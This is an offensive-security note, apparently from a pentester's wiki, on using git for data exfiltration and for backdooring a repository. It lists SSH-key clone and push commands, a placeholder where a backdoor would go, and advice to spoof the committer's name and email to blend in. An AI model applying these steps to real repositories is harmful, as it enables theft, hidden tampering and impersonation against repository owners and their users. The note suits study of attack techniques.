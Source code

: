 # Git-filtration

For more regular usage of of `git` see [[Github-guide]], some of the same command will be listed here to aid in potential data exfiltration, but also privilege escalation method. For the [[Data-Exfiltration-Defined]] requires a method to Exfiltrate, is also capable of resending back to Infiltrate; for the [[Linux-Privilege-Escalation]] or [[Windows-Privilege-Escalation-Vectors]] methods to work requires both Infiltration method and an execution vector in the context of the laterial or elevated privilege. 

## Exfiltration

```bash
# ssh
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git clone git@$ip:/path/to/vulnGit
```

## Infiltration & Backdooring

```bash
cd vulnGit/
# insert backdooring method here
# Consider impersonation attacking the user and email
git log
git config --global user.name ""
git config --global user.email "user@Nomail.(none)" # Without email
# Don't forget to revert, if required
git add -A 
git commit -m "A message in a git repo that aligns with objectives"
# 
GIT_SSH_COMMAND='ssh -i /path/id_rsa' git push origin master
```